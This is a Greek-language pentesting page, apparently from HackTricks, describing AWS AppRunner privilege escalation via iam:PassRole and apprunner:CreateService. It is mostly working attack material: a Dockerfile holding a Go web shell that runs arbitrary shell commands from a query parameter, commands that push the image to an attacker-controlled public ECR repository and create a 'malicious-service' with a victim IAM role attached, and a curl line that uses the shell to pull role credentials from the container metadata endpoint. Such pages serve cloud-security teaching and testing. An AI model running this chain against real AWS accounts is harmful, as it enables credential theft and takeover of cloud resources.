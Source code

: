 # AWS - AppRunner Privesc

{{#include ../../../banners/hacktricks-training.md}}

## AppRunner

### `iam:PassRole`, `apprunner:CreateService`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να δημιουργήσει μια υπηρεσία AppRunner με συνημμένο ρόλο IAM, ενδεχομένως κλιμακώνοντας τα προνόμια αποκτώντας πρόσβαση στα διαπιστευτήρια του ρόλου.

Ο επιτιθέμενος πρώτα δημιουργεί ένα Dockerfile που λειτουργεί ως web shell για να εκτελεί αυθαίρετες εντολές στο κοντέινερ AppRunner.
```Dockerfile
FROM golang:1.24-bookworm
WORKDIR /app
RUN apt-get update && apt-get install -y ca-certificates curl
RUN cat <<'EOF' > main.go
package main

import (
"fmt"
"net/http"
"os/exec"
)

func main() {
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
command := exec.Command("sh", "-c", r.URL.Query().Get("cmd"))
output, err := command.CombinedOutput()
if err != nil {
fmt.Fprint(w, err.Error(), output)
return
}

fmt.Fprint(w, string(output))
})
http.ListenAndServe("0.0.0.0:3000", nil)
}
EOF
RUN go mod init test && go build -o main .
EXPOSE 3000
CMD ["./main"]
```
Στη συνέχεια, σπρώξτε αυτή την εικόνα σε ένα αποθετήριο ECR. Με το να σπρώξετε την εικόνα σε ένα δημόσιο αποθετήριο σε έναν λογαριασμό AWS που ελέγχεται από τον επιτιθέμενο, είναι δυνατή η κλιμάκωση προνομίων ακόμη και αν ο λογαριασμός του θύματος δεν έχει άδειες για να χειριστεί το ECR.
```sh
IMAGE_NAME=public.ecr.aws/<alias>/<namespace>/<repo-name>:latest
docker buildx build --platform linux/amd64 -t $IMAGE_NAME .
aws ecr-public get-login-password | docker login --username AWS --password-stdin public.ecr.aws
docker push $IMAGE_NAME
docker logout public.ecr.aws
```
Στη συνέχεια, ο επιτιθέμενος δημιουργεί μια υπηρεσία AppRunner ρυθμισμένη με αυτή την εικόνα web shell και τον IAM Ρόλο που θέλει να εκμεταλλευτεί.
```bash
aws apprunner create-service \
--service-name malicious-service \
--source-configuration '{
"ImageRepository": {
"ImageIdentifier": "public.ecr.aws/<alias>/<namespace>/<repo-name>:latest",
"ImageRepositoryType": "ECR_PUBLIC",
"ImageConfiguration": { "Port": "3000" }
}
}' \
--instance-configuration '{"InstanceRoleArn": "arn:aws:iam::123456789012:role/AppRunnerRole"}' \
--query Service.ServiceUrl
```
Αφού περιμένετε να ολοκληρωθεί η δημιουργία της υπηρεσίας, χρησιμοποιήστε το web shell για να ανακτήσετε τα διαπιστευτήρια του κοντέινερ και να αποκτήσετε τις άδειες του IAM Role που είναι συνδεδεμένο με το AppRunner.
```sh
curl 'https://<service-url>/?cmd=curl+http%3A%2F%2F169.254.170.2%24AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```
**Πιθανές Επιπτώσεις:** Άμεση κλιμάκωση προνομίων σε οποιονδήποτε ρόλο IAM που μπορεί να προσαρτηθεί σε υπηρεσίες AppRunner.

{{#include ../../../banners/hacktricks-training.md}}
